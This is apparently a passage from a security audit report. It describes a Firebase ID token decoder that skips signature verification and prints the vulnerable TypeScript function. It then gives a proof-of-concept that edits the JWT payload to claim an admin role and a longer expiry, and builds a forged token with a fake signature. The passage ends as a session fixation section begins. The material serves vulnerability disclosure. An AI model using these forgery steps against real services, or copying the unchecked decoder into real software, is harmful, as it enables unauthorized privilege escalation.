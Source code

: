 #### **Technical Analysis**
```typescript
// VULNERABLE CODE - No signature verification
export function decodeFirebaseToken(token: string): DecodedToken | null {
    const parts = token.split('.');
    const payload = parts[1]; // Only decodes payload, ignores signature
    const decoded = Buffer.from(paddedPayload, 'base64url').toString('utf8');
    // Missing: Cryptographic signature validation
}
```

#### **Proof of Concept Exploit**

**Step 1: Token Structure Analysis**
```bash
# Valid Firebase token structure
Header.Payload.Signature
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.PAYLOAD.SIGNATURE
```

**Step 2: Payload Manipulation**
```javascript
// Original payload
{
  "uid": "user123",
  "email": "user@example.com",
  "role": "user",
  "exp": 1640995200
}

// MALICIOUS payload modification
{
  "uid": "user123", 
  "email": "admin@example.com",
  "role": "admin",           // ⚠️ Privilege escalation
  "exp": 2640995200         // ⚠️ Extended expiration
}
```

**Step 3: Token Forgery**
```bash
# Encode malicious payload
echo '{"uid":"user123","email":"admin@example.com","role":"admin"}' | \
  base64 -w 0 | tr '+/' '-_' | tr -d '='

# Create forged token (signature ignored by decoder)
FORGED_TOKEN="eyJhbGciOiJSUzI1NiJ9.MALICIOUS_PAYLOAD.FAKE_SIGNATURE"
```

### 3. Session Fixation Vulnerability (HIGH)

#### **Vulnerability Description**
Raw ID tokens stored as session cookies without server-side session management enable session fixation attacks.
